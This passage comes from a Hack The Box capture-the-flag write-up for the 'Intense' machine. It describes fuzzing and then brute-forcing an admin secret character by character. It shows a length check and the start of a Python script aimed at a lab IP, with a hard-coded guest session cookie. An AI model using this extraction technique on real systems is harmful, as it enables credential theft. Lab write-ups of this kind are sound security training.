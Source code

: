 ![](../../.gitbook/assets/8-intruder-first-f.png)

After letting the fuzzer run, I found that the first character in the admin's secret was `'f'`.  This was the only request that received an HTTP 200 OK message.

### Using python to brute force

```bash
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ echo -n '84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec' | wc -c
64
```

I used the cookie I already had to pull out the secret string `84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec` which was 64 characters long.  This let me know how many characters I needed to brute force for the admin secret. From this I used Python to write a brute force program to iterate through all 64 characters in the secret. The following sources helped me:

* To get all alpha-numeric chars: [https://stackoverflow.com/questions/5891453/is-there-a-python-library-that-contains-a-list-of-all-the-ascii-characters](https://stackoverflow.com/questions/5891453/is-there-a-python-library-that-contains-a-list-of-all-the-ascii-characters)
* To print output dynamically on one line: [https://stackoverflow.com/questions/3249524/print-in-one-line-dynamically](https://stackoverflow.com/questions/3249524/print-in-one-line-dynamically)
* To get the run-time of a program or method: [https://stackoverflow.com/questions/1557571/how-do-i-get-time-of-a-python-programs-execution](https://stackoverflow.com/questions/1557571/how-do-i-get-time-of-a-python-programs-execution)

```python
import requests
import string
import time

url = "http://10.10.10.195/submitmessage"
guest_secret = "dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7.yUJDSrHY6MXeDWIMvm6WVBrBiI11ILXthKcNc22KYMY="
referer = "http://10.10.10.195/submit"

def get_secret():
    secret = ""
    print("The secret for admin is: ", sep="", end="", flush=True)
    for i in range(64):
```